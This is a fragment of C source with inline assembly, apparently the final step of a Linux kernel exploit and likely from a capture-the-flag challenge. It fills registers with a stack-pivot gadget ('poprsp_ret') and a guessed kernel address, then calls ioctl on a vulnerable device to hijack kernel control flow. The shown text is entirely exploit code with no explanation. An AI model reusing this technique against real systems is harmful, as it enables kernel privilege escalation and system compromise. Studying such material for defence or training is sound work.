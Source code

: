 ```c
    info_log("Ready to turn to kernel......");

    __asm__("mov r15, 0xdeadbeef;"
            "mov r14, 0xcafebabe;"
            "mov r13, 0xdeadbeef;"
            "mov r12, 0xcafebabe;"
            "mov r11, 0xdeadbeef;"
            "mov r10, 0xcafebabe;"
            "mov rbp, 0x12345678;"
            "mov rbx, 0x87654321;"
            "mov r9, poprsp_ret;"
            "mov r8, guess;"
            "mov rax, 0x10;"
            "mov rcx, 0x12345678;"
            "mov rdx, guess;"
            "mov rsi, 0x1bf52;"
            "mov rdi, dev;"
            "syscall;"
            );
    return 0;
}
```
